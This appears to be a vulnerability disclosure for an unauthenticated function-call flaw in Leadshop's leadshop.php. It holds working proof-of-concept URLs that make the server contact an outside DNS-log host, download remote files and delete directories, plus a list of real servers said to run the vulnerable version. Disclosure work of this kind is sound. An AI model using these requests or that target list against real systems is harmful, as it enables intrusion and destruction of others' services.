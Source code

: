 There is an RCE vulnerability in qmpaas/leadshop(https://github.com/qmpaas/leadshop )
-
Description
-
There is an RCE vulnerability in qmpaas/leadshop (https://github.com/qmpaas/leadshop) (v1.4.15). An attacker can access the file leadshop.php and call any existing function through GET to control the target host.  
The vulnerability is in the leadshop/web/leadshop.php[27-61] file  

```  
 public function run()  
    {  
        //读取参数数据  
        $include = isset($_GET['include']) ? $_GET['include'] : "";  
        $data    = isset($_GET['data']) ? $_GET['data'] : "";  
        $meta    = isset($_GET['meta']) ? $_GET['meta'] : "";  
        //执行数据方法  
        if ($include) {  
            return call_user_func_array([$this, $include], [$meta, $data]);  
        } else {  
            //用于判断是否非法操作  
            $token = isset($_GET['token']) ? $_GET['token'] : "";  
            $html  = get_oss_url('index.html');  
            //判断锁文件是否存在，存在则是要执行更新  
            if (@file_exists(dirname(__DIR__) . "/install.lock")) {  
                if (@file_get_contents(dirname(__DIR__) . "/install.lock") === $token) {  
                    if (!isset($_SESSION['self_update'])) {  
                        //执行更新自身  
                        $this->SilentSelfUpdate();  
                    }  
                    //执行更新操作  
                    $version = get_version();  
                    $body    = $this->DownloadFile($html);  
                    echo str_replace('{$version}', $version, $body);  
                } else {  
                    die("检测到非法Token，请登录后台进入更新界面");  
                }  
            } else {  
                $version = get_version();  
                $body    = $this->DownloadFile($html);  
                echo str_replace('{$version}', $version, $body);  
            }  
        }  

    }  
```  
The ```call_user_func_array``` function is used directly, and $include, $data, and $meta receive get parameters, which allows us to run all functions in this file (parameters less than or equal to 2), such as:  
HttpGet (http access: poc: ```https://demo.leadshop.vip/leadshop.php?include=HttpGet&meta=6nup69.dnslog.cn```),  
ToMkdir (create folder: poc: ```https://demo.leadshop.vip/leadshop.php?include=ToMkdir&meta=1```),  
UpdateSql (perform database update: poc: ```https://demo.leadshop.vip/leadshop.php?include=UpdateSql```),  
DownloadFile (download file: poc: 
```https://demo.leadshop.vip/leadshop.php?include=DownloadFile&meta=www.baidu.com/img/flexible/logo/pc/peak-result.png```),  
RemoveDir (remove directory: poc: 
```https://demo.leadshop.vip/leadshop.php?include=RemoveDir&meta=[path]```)  
-
Proof of Concept:
-
Poc：
(This url is applied from DNSLog(http://dnslog.cn/) in advance. Click "Get SubDomain", access the poc, and click "Refresh Record" to Refresh.)  
```
https://demo.leadshop.vip/leadshop.php?include=HttpGet&meta=6nup69.dnslog.cn  
```
DNSLog picture:
![img](DNSLog.png)  
-
Impact
-
Attackers can call any existing functions at will, control the target server to access, download, create files, delete files, etc.  
Access may make the server a dos server.  
Download, so that an attacker can download the PHP Trojan to the server.  
Creating and deleting will destroy normal services.  
More than ten IPs are using this service(Fofa Search:"Powered By Leadshop © 2021").  
```
https://8.141.175.3
http://www.huatianlinye.com
https://39.107.102.163
https://42.193.253.224
https://store.mianhuain.com
http://shop.yongzhitang.com
https://101.201.209.92
http://119.3.229.175:7788
https://101.200.231.65
https://zhangtong.store.mianhuain.com
```  
-
Occurrences
-
https://github.com/qmpaas/leadshop/blob/42de4233357671b96b18f8c8b2f1d7a74a809755/web/leadshop.php#L27
https://github.com/qmpaas/leadshop/blob/42de4233357671b96b18f8c8b2f1d7a74a809755/web/leadshop.php#L35
https://github.com/qmpaas/leadshop/blob/42de4233357671b96b18f8c8b2f1d7a74a809755/web/leadshop.php#L103
https://github.com/qmpaas/leadshop/blob/42de4233357671b96b18f8c8b2f1d7a74a809755/web/leadshop.php#L304
https://github.com/qmpaas/leadshop/blob/42de4233357671b96b18f8c8b2f1d7a74a809755/web/leadshop.php#L328
https://github.com/qmpaas/leadshop/blob/42de4233357671b96b18f8c8b2f1d7a74a809755/web/leadshop.php#L349
https://github.com/qmpaas/leadshop/blob/42de4233357671b96b18f8c8b2f1d7a74a809755/web/leadshop.php#L395
https://github.com/qmpaas/leadshop/blob/42de4233357671b96b18f8c8b2f1d7a74a809755/web/leadshop.php#L444
https://github.com/qmpaas/leadshop/blob/42de4233357671b96b18f8c8b2f1d7a74a809755/web/leadshop.php#L477
https://github.com/qmpaas/leadshop/blob/42de4233357671b96b18f8c8b2f1d7a74a809755/web/leadshop.php#L495
https://github.com/qmpaas/leadshop/blob/42de4233357671b96b18f8c8b2f1d7a74a809755/web/leadshop.php#L509